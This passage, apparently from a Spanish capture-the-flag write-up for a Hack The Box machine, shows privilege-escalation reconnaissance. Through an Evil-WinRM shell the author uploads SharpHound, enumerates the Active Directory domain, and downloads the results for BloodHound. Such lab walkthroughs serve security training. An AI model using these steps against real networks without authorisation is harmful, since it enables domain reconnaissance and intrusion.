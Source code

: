 ```powershell
htb\svc-alfresco
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> hostname
FOREST
```

## Escalada de Privilegios

Ahora que nos encontramos dentro de la **máquina**, vamos a intentar enumerar información dentro de ella para poder escalar privilegios. Esto se puede hacer por varios caminos, como lo son **WinPEAS** o **SharpHound**. Sin embargo, nos vamos a centrar en enumerar el **dominio** para ver con qué permisos contamos, por lo que vamos a usar **SharpHound** en combinación con **BloodHound**. Para esto, necesitamos transferir el archivo a la víctima, lo cual se puede hacer con ayuda del mismo **Evil-WinRM** con el siguiente comando:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload /home/kali/HTB/Forests/content/SharpHound.exe

Info: Uploading /home/kali/HTB/Forests/content/SharpHound.exe to C:\Users\svc-alfresco\Documents\SharpHound.exe

Data: 1395368 bytes of 1395368 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\s
```

Ahora podemos empezar a enumerar información del **dominio** con el siguiente comando:

```powershell
.\SharpHound.exe --CollectionMethods All --ZipFileName HTB.LOCAL.zip

... 

118 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-08-04T18:34:37.8511477-07:00|INFORMATION|SharpHound Enumeration Completed at 6:34 PM on 8/4/2024! Happy Graphing!
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```


Y para terminar, podemos enviar el resultado a nuestra máquina para analizarlos con **BloodHound**.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> download 20240804183407_HTB.LOCAL.zip
                                        
Info: Downloading C:\Users\svc-alfresco\Documents\20240804183407_HTB.LOCAL.zip to 20240804183407_HTB.LOCAL.zip
                                        
Info: Download successful!
```
